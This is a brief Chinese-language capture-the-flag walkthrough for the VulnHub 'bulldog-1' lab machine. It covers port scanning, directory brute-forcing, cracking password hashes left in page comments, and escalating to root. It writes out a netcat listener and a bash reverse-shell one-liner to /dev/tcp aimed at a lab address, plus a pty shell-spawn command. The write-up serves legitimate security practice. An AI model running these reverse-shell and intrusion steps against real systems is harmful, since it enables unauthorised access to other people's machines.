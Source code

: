 # VulnHub: bulldog-1
- https://www.vulnhub.com/entry/bulldog-1,211/
## Walkthrough
使用VirtualBox開啟虛擬機，可自動取得靶機ip，利用nmap掃port，http端口80、8080，ssh端口23皆為開放狀態
DirBuster爆破目錄，發現在/dev/中的source code有提示
> <!--Need these password hashes for testing. Django's default is too complex-->
> <!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
把註解中的password拿去sha1 decode，求出nick跟sarah的password，試探用database(sarah)去登/admin/，成功，但無編輯權限  
發現/dev/shell網頁，登入sarah後擁有權限，試圖用bash反彈shell，失敗，最後用echo成功  
攻擊機:`nc -l 3333`  
靶機shell欄位:`echo "bash -i >& /dev/tcp/10.10.10.10/3333 0>&1" | bash`  
查看可疑user，發現bulldogadmin和django，查看bulldogadmin文件，發現可疑目錄/home/bulldogadmin/.hiddenadmindirectory
從note中發現提示  
> Literally run the app, give your account password
用strings查看customPermissionApp，發現奇怪字眼  
`SUPERultH
imatePASH
SWORDyouH
CANTget`
研究了一下，刪掉H之後:  
`SUPERultimatePASSWORDyouCANTget`  
得到一串很像是密碼的東西，但並不確定，su試試，先解決error問題  
`python -c 'import pty;pty.spawn("/bin/bash")'`  
嘗試登入root帳號，密碼登入成功，回到/root目錄發現congrats.txt文件
`cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!`
